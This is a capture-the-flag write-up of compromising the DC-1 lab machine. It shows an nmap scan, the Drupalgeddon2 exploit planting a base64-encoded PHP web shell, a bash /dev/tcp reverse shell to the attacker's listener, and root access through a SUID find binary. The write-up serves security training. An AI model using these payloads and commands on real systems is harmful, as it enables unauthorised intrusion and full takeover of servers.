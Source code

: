 ```yaml
---
layout: post
author: H4
---
```


Vulnhub source  
[Details](https://www.vulnhub.com/entry/dc-1,292/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration

Performing a `nmap` scan to identify the attack surface of the target.

## nmap
```bash
nmap 192.168.200.193       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 13:38 EDT
Nmap scan report for 192.168.200.193
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

## web server (port 80)
- `gobuster` did not reveal anything useful on the web server on port `80`
- website with drupal installation  

> maybe vulnerable to `druaplgeddon`
{: .prompt-info }

---

# exploitation
## durpalgeddon2
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```

```bash
ruby drupalgeddon2.rb http://192.168.200.193/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.200.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.200.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.200.193/includes/bootstrap.inc    (HTTP Response: 403)
[+] Header : v7 [X-Generator]
[!] MISSING: http://192.168.200.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/includes/database.inc    (HTTP Response: 403)
[+] Found  : http://192.168.200.193/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.200.193/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZFKXPOT
[+] Result : OZFKXPOT
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.200.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.200.193/shell.php' -d 'c=hostname'
DC-1>> whoami
www-data
```

Yay! RCE works!

---

# post exploitation
## full reverse shell
`drupalgeddon` deploys a simple `shell.php` and we will exploit this to get a cute reverse shell.

### listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

### on target machine
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.200/80 0>&1'`
```http
GET /shell.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.200/80+0>%261' HTTP/1.1
Host: 192.168.200.193
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: has_js=1
Connection: close
```

### catch reverse connection
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.200.193: inverse host lookup failed: Unknown host
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.193] 45807
bash: no job control in this shell
www-data@DC-1:/var/www$ whoami
whoami
www-data
```

### make it beautiful
```bash
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ export TERM=xterm
export TERM=xterm
```

hit CTRL+Z
```bash
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -lvp 80
stty raw -echo; fg                                                                 
[1]  + continued  nc -lvp 80

www-data@DC-1:/var/www$ whoami 
www-data
```
Now we got a fully interactive shell with autocomplete etc. :)

## first flag
```bash
www-data@DC-1:/var/www$ cd /
www-data@DC-1:/$ cd home
www-data@DC-1:/home$ ls
flag4  local.txt
www-data@DC-1:/home$ cat local.txt
7******************************8
```

## privilege escalation
### check for suid binaries
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount
-rwxr-sr-x 1 root ssh 128396 Jan 27  2018 /usr/bin/ssh-agent
-rwsr-sr-x 1 daemon daemon 50652 Oct  4  2014 /usr/bin/at
-rwxr-sr-x 1 root mlocate 30492 Sep 25  2010 /usr/bin/mlocate
-rwxr-sr-x 1 root mail 17908 Nov 18  2017 /usr/bin/lockfile
-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 49364 Feb 27  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 9708 Jun 11  2012 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn
-rwxr-sr-x 1 root mail 9768 Nov 30  2014 /usr/bin/mutt_dotlock
-rwxr-sr-x 1 root tty 18020 Dec 10  2012 /usr/bin/wall
-rwxr-sr-x 1 root crontab 34760 Jul  4  2012 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 18168 Feb 27  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
-rwxr-sr-x 1 root mail 13960 Dec 12  2012 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 4972 Feb 21  2011 /usr/lib/utempter/utempter
-rwxr-sr-x 1 root shadow 30332 May  5  2012 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs
```
> `find` looks juicy! Check [gtfobins](https://gtfobins.github.io/) on how to exploit `find` to gain `root` access.
{: .prompt-info }

```bash
www-data@DC-1:/home$ whereis find
find: /usr/bin/find /usr/bin/X11/find /usr/share/man/man1/find.1.gz
www-data@DC-1:/home$ find . -exec /bin/sh \; -quit    
# whoami
root
```
There we go!

## second flag
```bash
# cd /root
# ls
proof.txt  thefinalflag.txt
# cat proof.txt
0******************************1
```
  
Pwned! <@:-)
